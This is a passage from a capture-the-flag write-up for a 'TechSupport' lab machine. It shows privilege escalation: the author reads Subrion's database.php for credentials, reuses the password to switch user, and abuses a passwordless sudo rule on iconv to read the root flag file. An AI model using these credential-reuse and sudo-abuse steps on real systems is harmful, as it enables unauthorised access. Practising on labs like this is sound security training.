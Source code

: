 ## Privilege Escalation scamsite
Searched arround for a way to escalate to `scamsite` and found credentials in the `database.php` file from subrion:

```php
www-data@TechSupport:/var/www/html/subrion/admin$ cat database.php
  [... reduced for readability ...]
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wpdb' );

/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', '[removed]' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

  [... reduced for readability ...]
```

Probably the user used this password several times:
```bash
www-data@TechSupport:/home$ su scamsite
Password: 
scamsite@TechSupport:/home$
```

Now I can use `ssh` for a more stable connection.

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
scamsite@TechSupport:~$ sudo -l
  Matching Defaults entries for scamsite on TechSupport:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User scamsite may run the following commands on TechSupport:
      (ALL) NOPASSWD: /usr/bin/iconv
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/###/">gftobins</a> gave me all I needed:
```bash
scamsite@TechSupport:~$ LFILE=/root/root.txt
scamsite@TechSupport:~$ sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
[*** removed ***]  -
```

solved! :)
